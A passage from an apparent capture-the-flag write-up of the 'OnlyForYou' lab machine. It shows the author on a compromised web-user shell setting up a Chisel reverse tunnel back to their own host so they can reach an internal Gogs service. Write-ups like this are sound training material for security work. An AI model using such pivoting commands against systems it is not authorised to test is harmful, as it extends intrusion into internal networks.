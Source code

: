 Ports 7687 and 7474 are used by [Neo4j](https://neo4j.com/docs/operations-manual/current/configuration/ports/), I tried connecting to it, but I was not allowed.

```bash
www-data@only4you:~/only4you.htb$ neo4j
/usr/bin/neo4j: line 8: /usr/share/neo4j/bin/neo4j: Permission denied
/usr/bin/neo4j: line 8: exec: /usr/share/neo4j/bin/neo4j: cannot execute: Permission denied
```

### Gogs

I found ports 3000 and 8001. To access them, I downloaded [Chisel](https://github.com/jpillora/chisel) on the box and used it to create a reverse tunnel.

I launched the server on my machine.

```bash
./chisel server -p 3477 --reverse
```

Then on the server I created the reverse tunnel on port 3000.

```bash
./chisel client 10.10.14.2:3477 R:3000:localhost:3000/tcp
```

I opened `localhost:3000` in my browser.

![Gogs](/assets/images/2023/05/OnlyForYou/Gogs.png "Gogs")
